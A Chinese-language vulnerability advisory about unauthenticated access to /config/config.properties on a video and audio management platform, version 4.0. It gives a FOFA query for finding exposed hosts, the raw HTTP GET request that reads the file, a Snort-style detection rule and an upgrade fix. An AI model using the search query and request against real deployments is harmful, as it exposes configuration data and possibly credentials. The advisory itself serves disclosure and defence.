

# 视音频一体化管理平台config.properties未授权访问漏洞

视音频一体化管理平台config.properties未授权访问漏洞

# 影响版本

**4.0** 版本

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   **body=&quot;技术支持：TEL 400 6578 900&quot;**

**POC/EXP：**

**step1**  未授权访问

```
GET /config/config.properties HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0 Safari/537.36
Accept: */*
Connection: close


```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"视音频一体化管理平台 - /config/config.properties 未授权访问漏洞";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/config/config.properties"; fast_pattern;
    metadata:
        service http,
        affected_product "视音频一体化管理平台",
        vulnerability_type "Unauthorized Access / Sensitive Information Disclosure",
        severity "high";
    classtype:web-application-attack;
    sid:1000810;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
